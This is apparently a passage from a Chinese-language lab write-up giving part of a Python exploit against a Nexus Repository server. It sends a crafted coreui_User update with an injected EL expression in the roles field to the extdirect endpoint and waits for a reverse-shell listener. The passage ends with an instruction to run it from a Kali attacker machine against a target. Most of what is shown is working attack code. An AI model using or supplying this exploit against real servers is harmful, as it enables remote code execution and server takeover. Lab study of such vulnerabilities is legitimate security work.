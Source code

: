 ```python
inject_data = {
    "action": "coreui_User",
    "method": "update",
    "data": [{
        "userId": "admin",
        "version": "10",
        "firstName": "Administrator",
        "lastName": "User1",
        "email": "admin@example.org",
        "status": "active",
        "roles": [el_expr]
    }],
    "type": "rpc",
    "tid": 24
}

inject_headers = {
    "Cookie": f"NXSESSIONID={cookie}",
    "Content-Type": "application/json",
    "Origin": HOST,
    "Referer": f"{HOST}/",
    "X-Nexus-UI": "true",
    "User-Agent": "Mozilla/5.0",
    "X-Requested-With": "XMLHttpRequest"
}

print("[+] 正在发送 exploit payload...")
exploit_url = f"{HOST}/service/extdirect"
exploit_resp = session.post(exploit_url, headers=inject_headers, data=json.dumps(inject_data))

print(f"[+] 返回状态码: {exploit_resp.status_code}")
print("[+] 服务器响应:")
print(exploit_resp.text)

# === 等待监听线程结束（即交互 shell） ===
listener_thread.join()
```

在`kali-attacker`中运行脚本，输入靶机ip、端口、本机监听ip、端口：
